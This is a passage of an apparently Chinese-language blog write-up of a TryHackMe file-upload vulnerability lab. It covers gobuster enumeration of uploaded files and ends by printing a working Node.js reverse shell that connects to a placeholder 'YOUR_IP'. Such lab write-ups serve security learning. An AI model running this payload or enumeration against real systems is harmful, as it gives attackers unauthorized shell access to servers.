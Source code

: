![image-20220525170358215]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220525170358215.png)

需要小于50KB，有magic number检查，文件类型只取第一个.后的拓展名，必须是jpg或者jpeg

## 3.2 找上传文件的路径

**没想到**

查看网站的背景来源，来自/content这个文件夹，但是直接进这个文件夹进不去

![image-20220526140735495]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526140735495.png)

![image-20220526140835451]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526140835451.png)

看了hint，说要上传一个正常的jpeg文件，然后用task中给的wordlist来找这个文件。

![image-20220526141033088]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526141033088.png)![image-20220526141049688]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526141049688.png)

下载wordlist，然后传到攻击机上，我用了https://send-anywhere.com/这个网站来传，非常方便。然后传一个正常的jpeg图片（其实Jpg也可以的），然后用gobuster找/content文件

```
gobuster dir -u http://jewel.uploadvulns.thm/content -w UploadVulnsWordlist.txt -t 250 -x .jpeg,.jpg
```

后面有一大堆错误，不过找到了

![image-20220526142600472]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526142600472.png)

直接访问是刚才上传的jpeg文件，不过我当时传的是jpeg，现在变成.jpg了耶

![image-20220526144030066]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-25-Tryhackme Upload Vulnerability big task/image-20220526144030066.png)

## 3.3 绕过（自己的方法）

1. 先找个express.js的reverse shell文件

我找的是这个网站：https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "YOUR_IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
